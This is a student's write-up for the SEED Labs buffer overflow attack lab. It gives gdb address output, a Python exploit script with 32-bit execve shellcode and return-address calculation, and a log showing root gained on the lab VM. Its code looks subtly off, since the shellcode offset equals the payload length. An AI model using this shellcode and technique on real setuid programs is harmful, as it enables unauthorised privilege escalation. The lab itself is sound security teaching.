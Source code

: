 # SEEDlabs: Buffer Overflow Attack Lab

#### Ozgur Ural
#### Student ID: 2564455


## Launching Attack on 32-bit Program (Level 1)

1. gdb stack-L1-dbg - Get the address of the bof function and the address of the buffer.

```sh
gdb-peda$ print $ebp
$1 = (void *) 0xffffcb08
gdb-peda$ print $buffer
$2 = (char (*)[100]) 0xffffca9c
```

2. Created badfile file. 
3. Modified the exploit.py file:

```c
#!/usr/bin/python3
import sys
shellcode= (
                   "\x31\xc0\x50\x68\x2f\x2f\x73"
                   "\x68\x68\x2f\x62\x69\x6e\x89"
                   "\xe3\x89\xc1\x89\xc2\xb0\x0b"
                   "\xcd\x80\x31\xc0\x40\xcd\x80"
).encode(’latin-1’)
# Fill the content with NOP’s
content = bytearray(0x90 for i in range(517))
##################################################################
# Put the shellcode somewhere in the payload
start = 517 
content[start:start + len(shellcode)] = shellcode
# Decide the return address value
# and put it somewhere in the payload
ret = 0xffffca9c+start # ✩ Need to change ✩
offset = 0xffffcb08-0xffffca9c+4 # ✩ Need to change ✩
L = 4 # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder=’little’)
##################################################################
```

4. Generate the payload and then attack.

```sh
[10/06/22]seed@VM:~/code$ ./exploit.py
[10/06/22]seed@VM:~/code$ ./stack-L1
Input size: 517
#id
uid=1000(seed) gid=1000(seed) euid=0(root) groups=1000(seed),4(adm)
```
Got root privileges.

Additional explanations about the exploit.py modifications.
- The shellcode is copied, which is 32bit assembly version of the shellcode.
- ret is the return adress, returning the first instruction of the shellcode
- offset is the interval between ebp and buffer addresses
- L equal to 4 is a 32 bit program.
